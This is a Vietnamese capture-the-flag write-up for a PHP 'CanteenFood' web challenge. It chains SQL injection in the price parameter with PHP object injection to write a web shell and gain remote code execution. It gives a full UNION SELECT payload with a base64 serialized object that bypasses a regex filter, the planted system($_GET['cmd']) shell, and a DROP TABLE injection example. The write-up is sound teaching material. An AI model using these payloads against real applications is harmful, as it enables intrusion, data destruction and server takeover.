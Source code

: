 ```yaml
---
title: CanteenFood CTF Challenge WriteUp

---
```


# CanteenFood CTF Challenge WriteUp by @Phatmh
## Tiến hành phân tích chức năng theo kiểu BlackBox

![image](https://hackmd.io/_uploads/SJOQlrxHxx.png)
Đây là một trang Web có chức năng cho User tìm kiếm được món ăn phù hợp với túi tiền của mình nhất bằng cách nhập số tiền mình mong muốn nó sẽ trả về món mà mình đủ tiền trả.
![image](https://hackmd.io/_uploads/rJesxBgBxx.png)
Ở đây sau khi viết ra số 300 và tiến hành bấm chức năng thì nó trả về được list các món dưới 300.
![image](https://hackmd.io/_uploads/Hyhgbrgrle.png)
Ở ngay bên trên mình phát hiện được một nơi đáng ngờ là chữ admin có thể dẫn ta đi đâu đó vì thể click thử vào.
![image](https://hackmd.io/_uploads/HJ7E-Hlrxg.png)
Nó trả về cho ta dòng **Only access allowed for canteen admin!!!** có vẻ nơi đây đã bị block lại và chỉ cho phép admin truy cập vào.
![image](https://hackmd.io/_uploads/SkPtWBgHle.png)
Sau một lúc phân tích thì mình thấy đường dẫn này liệu có thể là nơi để mình có thể tấn công bằng cách nào đó không vì parameter **?price=** cho phép người dùng thay đổi và đó là một **Untrusted Data** hoàn toàn có thể tấn công vào.

## Tiến hành phân tích Source Code cho sẵn
**AdminController.php**:
![image](https://hackmd.io/_uploads/SJwYPBlrll.png)
Đây là hàm xử lý quyền truy cập của người dùng, nó sẽ dùng method admin để xử lý trang. Sử dụng If Else để kiểm tra Session người dùng, nó sẽ từ chối truy cập khi **$_SESSION["admin"] === false (strict)** và trả về thông báo rằng **Only access allowed for canteen admin!!!**. Còn nếu người dùng là Admin thì nó sẽ trỏ đến AdminModel để đọc file **/logs.txt** và trả về nội dung. Ở đây không có một Sink nào để ta có thể lợi dụng tấn công vào mà chỉ cung cấp cho ta thông tin về cách trang web control được admin.

**CanteenController.php**:
![image](https://hackmd.io/_uploads/BJ1VI--rxx.png)
CanteenController với chức năng chính là hiển thị thực đơn canteen, tạo canteen Model và xử lý fillter theo giá sản phẩm.
**AdminModel.php**:
![image](https://hackmd.io/_uploads/Syr7-4Wrxx.png)
Nơi đây chứa hàm kiểm tra Session để có thể truy cập vào AdminModel trong trường hợp người truy cập là admin, cùng với đó là các constructor để ghi file vào file logs. Ở đây mình để ý một **magic method** là **__wakeup** là một method được gọi khi object được unserialize. Vậy ta có thể lợi dụng method này để tiến hành kịch bản **PHP Object Injection to RCE** được không? Ta sẽ lưu ý đoạn này và tiến hành đọc code tiếp.
**CanteenModel.php**:
Ở đây là một class chứa 2 functions chính là **getFood()** và **filterFood()** 
![image](https://hackmd.io/_uploads/ryhm7EbBex.png)
![image](https://hackmd.io/_uploads/B1fHmNWSel.png)
Tại đây mình đã tìm được Sink để có thể khai thác được cụ thể ở đây là một chuỗi exploit chain lợi dụng Sqli và PHP Object Injection bằng magic method từ đó RCE 
# Giải thích chi tiết chuỗi exploit CTF

## 📋 Tổng quan kiến trúc ứng dụng

### Các thành phần chính:
```
CanteenController 
├── index() → getFood() hoặc filterFood()
├── AdminController 
│   └── admin() → AdminModel::read_logs()
└── AdminModel + LogFile classes
```

### Luồng dữ liệu:
```
User Request → Controller → Model → Database → Response
```

##  Phân tích từng lỗ hổng

### 1. **SQL Injection (filterFood)**
```php
$sql = "SELECT * FROM food where price < " . $price_param;
```

**Vấn đề:** `$price_param` được nối trực tiếp vào query
- Không có escaping, validation, prepared statement
- Attacker có thể inject SQL commands

**Ví dụ:**
```php
// Request: /?price=1 OR 1=1
$price_param = "1 OR 1=1";
$sql = "SELECT * FROM food where price < 1 OR 1=1";  // Lấy tất cả records

// Request: /?price=1; DROP TABLE food; --
$price_param = "1; DROP TABLE food; --";  
$sql = "SELECT * FROM food where price < 1; DROP TABLE food; --";  // Xóa table
```

### 2. **PHP Object Injection (getFood & filterFood)**
```php
if($obj->oldvalue !== '') {
    $dec_result = base64_decode($obj->oldvalue);
    if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
        return 'Not allowed';
    }
    $uns_result = unserialize($dec_result);  // ← NGUY HIỂM!
    // ...
}
```

**Vấn đề:** Unserialize dữ liệu từ database mà chỉ có filter yếu
- `unserialize()` có thể tạo object bất kỳ
- Filter chỉ check regex pattern `O:\d+:"classname"`
- Có thể bypass filter

**Tại sao nguy hiểm:**
```php
// Khi unserialize, PHP sẽ:
1. Tạo object theo class được chỉ định
2. Set các properties
3. Gọi magic method __wakeup() nếu có
```

### 3. **Arbitrary File Write (__wakeup magic method)**
```php
class AdminModel {
    public function __wakeup() {
        new LogFile($this->filename, $this->logcontent);  // ← Magic method!
    }
}

class LogFile {
    public function __construct($filename, $content) {
        file_put_contents($filename, $content, FILE_APPEND);  // ← Ghi file!
    }
}
```

**Vấn đề:** Magic method `__wakeup()` được gọi tự động khi unserialize
- Tạo LogFile object → ghi file với path và content tùy ý
- Không validate filename/content

##  Chuỗi exploit chi tiết
Vậy đây ta có thể đưa ra suy nghĩ rằng khi bắt đầu khởi tạo Object và khi nó gọi đến unserialize() thì magic method đầu tiên nó đi qua sẽ là __wakeup() và cứ mỗi lần nó sẽ khởi tạo value mới bằng file_put_contents vậy nên ở đây kịch bản sẽ là ta sẽ lợi dụng Sqli để ghi vào chuỗi serialize khi mà hàm unserialize gọi đến __wakeup thì nó sẽ thực hiện và chuỗi shell được file_put_contents đưa vào. Bên cạnh đó tuy unserialize được filter bằng regex nhưng hoàn toàn có thể bypass như đã nói ở trên.
![image](https://hackmd.io/_uploads/rkMKOrMSxe.png)
Tiến hành viết Exploit code ở đây lợi dụng class AdminModel để làm ra một gadget chain khi mà nó unserialize thì nó sẽ gọi đến magic method là __wakeup, nên trong quá trình này mình dùng serialize object rồi mình sẽ đưa nó về Base64.
![image](https://hackmd.io/_uploads/B1nzFSzSee.png)
Ở đây mình sẽ truyền shell thẳng vào /www/shell.php vì nơi chứa index của bài sẽ nằm ở root của docker.
![image](https://hackmd.io/_uploads/r1upFHzSgx.png)
Ở đây kịch bản tấn công của mình sẽ là cố gắng `insert` được đoạn mã base64 rồi sau đó sẽ sửa `price=999999999` để nó gọi tất cả các bảng và unserialize và khi nó giải mã `base64` thì cái `oldValue` sẽ giúp ta tạo ra được file `shell.php` nằm ngay trong `/www/`.
![image](https://hackmd.io/_uploads/SJK3yIMSge.png)
Sau khi cố gắng Insert mình sẽ sửa parameter pricer=99999999 để cho nó gọi full bảng và thực hiện quá trình serialize và unserialize với mong muốn nó sẽ tạo file shell.php trong /www/.
![image](https://hackmd.io/_uploads/r1YmxUGree.png)
![image](https://hackmd.io/_uploads/r1ZUl8Mrlx.png)
Có vẻ như kịch bản Insert của mình đã thất bại vì không có một file nào được tạo ở bên trong docker vậy nên ta sẽ phải suy nghĩ đến kịch bản tấn công, vấn đề ở đây là ngoài Insert liệu có cách nào để ta có thể control được luồng dữ liệu mình thêm vào hay không?
![image](https://hackmd.io/_uploads/B104MIfrle.png)
Ở đây để xem cái kịch bản Insert của mình có ổn không thì mình đã truy cập thẳng vào DB của docker và tiến hành Insert thẳng vào bảng luôn và như ảnh trên thì dữ liệu đã được đưa vào bây giờ mình sẽ dùng `curl "http://localhost:1337/?price=999999999"` để nó gọi hết bảng.
![image](https://hackmd.io/_uploads/rk1yX8GHlx.png)
Ở đây có thể thấy nó đã thực sự work nếu ta Insert thẳng vào bảng bằng DB docker, từ đây ta sẽ suy nghĩ rằng có lẽ đã có đoạn code nào đó ngăn chặn user sử dụng Insert để inject value vào bảng.
Bây giờ ta sẽ tiến hành đi kiểm tra code để xem lý do vì sao ta không sử dụng Insert được.
![image](https://hackmd.io/_uploads/Sk7IQuMHel.png)
Ở đây sau khi đọc thì nó chỉ cho phép mình sử dụng SELECT và UPDATE thay vì Insert. Dựa theo đó mình đã thử UPDATE nhưng nhận ra là web app không có điểm nào để có thể cập nhật dữ liệu từ đó sử dụng UPDATE để thay đổi giá trị thế nên chỉ còn mỗi SELECT. Vậy ở đây làm sao để dùng SELECT để thay đổi và Insert được payload vào bảng, sau khi tìm kiếm thì UNION SELECT có khả thi để có thể Insert được payload vào mà không cần dùng đến Insert.

Bảng đích: food

Các cột: id, name, oldvalue, price

Mục tiêu: Chèn payload PHP Object Injection vào cột oldvalue

Tiến hành chèn câu Sql vào `-1+UNION+SELECT+999%2C+'hacked'%2C+'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTQ6Ii93d3cvc2hlbGwucGhwIjtzOjEwOiJsb2djb250ZW50IjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO30%3D'%2C+1` thì nó sẽ dựa theo câu Database trở thành:
`SELECT id, name, oldvalue, price FROM food WHERE price < -1 UNION SELECT 999, 'hacked', 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTQ6Ii93d3cvc2hlbGwucGhwIjtzOjEwOiJsb2djb250ZW50IjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO30=', 1`.
![image](https://hackmd.io/_uploads/BJYcV_Mrxl.png)
Sau khi inject thành công nó trả về cho ta một trang trắng xóa, đây là một dấu hiệu tốt vì khi nó được đẩy lên thành công mà không có lỗi nó sẽ trắng như này.
![image](https://hackmd.io/_uploads/HybkB_Mrle.png)
Kiểm tra file docker nó có nhảy file shell không và đã thành công tạo ra file shell.php nằm ngay ở /www/ là root của docker container.
![image](https://hackmd.io/_uploads/HypQr_GHxg.png)
Thành công chạy đến /shell.php và tiến hành truyền câu lệnh `ls` để đọc được các File trong đó.
![image](https://hackmd.io/_uploads/B1GDHOzSlg.png)
Đọc được các Logs ở trong logs.txt mà chỉ admin có thể đọc.
Vậy là đã hoàn thành mục tiêu RCE được web này sử dụng Exploit Chain là SQLi+PHP Object Injection to RCE.



